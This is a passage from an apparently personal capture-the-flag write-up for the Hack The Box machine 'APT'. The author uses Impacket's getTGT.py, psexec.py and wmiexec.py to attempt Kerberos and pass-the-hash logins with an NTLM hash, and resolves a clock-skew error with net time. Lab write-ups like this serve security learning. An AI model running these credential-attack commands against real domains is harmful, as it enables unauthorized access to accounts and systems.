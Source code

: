 ```text
If someone could tell me what I was doing wrong I would greatly appreciate it!!

# getTGT way (cont)

* https://www.onsecurity.io/blog/abusing-kerberos-from-linux/

STill got time sync error, but this time only for one hash; all others reported PREAUTH error
```

┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$cat valid\_hash Kerberos SessionError: KRB\_AP\_ERR\_SKEW\(Clock skew too great\) aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb

```text
couldn't resolve time sync errors...maybe just skip this?
```

┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ export KRB5CCNAME=henry.vinson@htb.ccache

```text
* https://bluescreenofjeff.com/2017-05-23-how-to-pass-the-ticket-through-ssh-tunnels/
```

┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ net time -S apt.htb.local Tue Mar 30 21:38:19 2021

┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ date Tue 30 Mar 2021 09:28:35 PM EDT

```text
my errors were caused because the time was 10 minutes off...Thank you `net time`!!
```

┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ for x in $\(head -1 test\);do getTGT.py -hashes $x -dc-ip apt.htb.local htb/henry.vinson@apt.htb \| grep -v Impacket \| tee -a valid\_hash3 && echo $x &gt;&gt; valid\_hash3 ;done

\[\*\] Saving ticket in henry.vinson@apt.htb.ccache

```text
And it worked!!

### push on
```

┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ psexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb' htb/henry.vinson@apt.htb.local Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

\[\*\] Requesting shares on apt.htb.local..... \[-\] share 'backup' is not writable. \[-\] share 'NETLOGON' is not writable. \[-\] share 'SYSVOL' is not writable.

```text
The hash seemed to be valid! I got a listing of shares, though it wouldnt connect since they werent writeable
```

┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb htb/henry.vinson@apt.htb.local Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

\[\*\] SMBv3.0 dialect used \[-\] rpc\_s\_access\_denied
